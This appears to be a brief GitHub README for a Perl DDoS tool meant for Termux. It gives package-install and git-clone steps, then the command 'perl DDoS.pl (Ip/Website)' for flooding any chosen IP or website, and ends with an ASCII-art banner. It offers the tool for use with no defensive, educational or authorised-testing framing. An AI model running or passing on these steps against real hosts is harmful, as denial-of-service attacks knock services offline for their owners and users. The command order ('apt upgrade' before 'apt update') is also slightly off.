 # Perl

$ apt upgrade && apt update

$ pkg upgrade && pkg update

$ pkg install perl

$ pkg install git

$ git clone https://github.com/Xnuvers007/expert-winner

$ cd ddos

$ cd Perl

$ perl DDoS.pl (Ip/Website)

__  __                              __  __      _       _ _  __  __          
\ \/ /_ __  _   ___   _____ _ __ ___\ \/ /_ __ | | ___ (_) |_\ \/ /___ _ __  
 \  /| '_ \| | | \ \ / / _ \ '__/ __|\  /| '_ \| |/ _ \| | __|\  // _ \ '_ \ 
 /  \| | | | |_| |\ V /  __/ |  \__ \/  \| |_) | | (_) | | |_ /  \  __/ | | |
/_/\_\_| |_|\__,_| \_/ \___|_|  |___/_/\_\ .__/|_|\___/|_|\__/_/\_\___|_| |_|
                                         |_|                                 
